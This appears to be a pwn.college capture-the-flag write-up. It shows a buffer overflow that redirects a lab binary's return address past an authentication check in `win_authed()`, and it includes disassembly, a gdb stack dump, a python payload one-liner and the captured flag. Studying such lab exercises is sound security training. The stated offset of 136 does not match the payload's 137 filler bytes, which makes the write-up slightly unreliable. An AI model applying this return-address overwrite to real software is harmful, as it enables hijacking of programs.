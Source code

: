 In this challenge we have to call `win_authed()` function but in that function there is a condtion which authenticates a variable. 
So in order to bypass that condition we can change the return address to an address after that condtion in the `win_authed()` function

    0000000000401d31 <win_authed>:
      401d31:	f3 0f 1e fa          	endbr64
      401d35:	55                   	push   rbp
      401d36:	48 89 e5             	mov    rbp,rsp
      401d39:	48 83 ec 10          	sub    rsp,0x10
      401d3d:	89 7d fc             	mov    DWORD PTR [rbp-0x4],edi
      401d40:	81 7d fc 37 13 00 00 	cmp    DWORD PTR [rbp-0x4],0x1337
      401d47:	0f 85 fe 00 00 00    	jne    401e4b <win_authed+0x11a>
      401d4d:	48 8d 3d b4 12 00 00 	lea    rdi,[rip+0x12b4]        # 403008 <_IO_stdin_used+0x8>
      401d54:	e8 b7 f3 ff ff       	call   401110 <puts@plt>
      401d59:	be 00 00 00 00       	mov    esi,0x0
 
The return address is `0x401d4d`

Now we have to find the offset 

    (gdb) x /32z $rsp
    0x7ffe803ff860:	0x0000001c	0x00000000	0x80400a48	0x00007ffe
    0x7ffe803ff870:	0x80400a38	0x00007ffe	0xa5f9b723	0x00000001
    0x7ffe803ff880:	0x00000d68	0x00000000	0x000000c8	0x00000000
    0x7ffe803ff890:	0x41414141	0x41414141	0x0a414141	0x00000000
    0x7ffe803ff8a0:	0x00000000	0x00000000	0x00000000	0x00000000
    0x7ffe803ff8b0:	0x00000000	0x00000000	0x00000000	0x00000000
    0x7ffe803ff8c0:	0x00000000	0x00000000	0x00000000	0x00000000
    0x7ffe803ff8d0:	0x00000000	0x00000000	0x00000000	0x00000000
    (gdb) 
    0x7ffe803ff8e0:	0x00000000	0x00000000	0x00000000	0x00000000
    0x7ffe803ff8f0:	0x00000000	0x00000000	0x00402070	0x00000000
    0x7ffe803ff900:	0x80400940	0x0000000c	0x803ff890	0x00007ffe
    0x7ffe803ff910:	0x80400940	0x00007ffe	0x00402059	0x00000000
    0x7ffe803ff920:	0x001e7788	0x00000000	0x80400a48	0x00007ffe
    0x7ffe803ff930:	0x80400a38	0x00007ffe	0x00005018	0x00000001
    0x7ffe803ff940:	0x00008ed8	0x00000000	0x00001000	0x00000000
    0x7ffe803ff950:	0x00000002	0x00000006	0x001eab80	0x00000000

The input buffer starts at `0x7ffe803ff890` 
The return address is `0x7ffe803ff918`
The offset is 136

The payload 

    python -c 'import sys, time; sys.stdout.buffer.write(b"200"); time.sleep(2); sys.stdout.buffer.write(b"A"*137 + b"\x4d\x1d\x40")' | ./program

The flag

    pwn.college{ILDI_Cqn0T6L7TRf-sK9p9mi04u.0FMwMDL5kzM1czW}
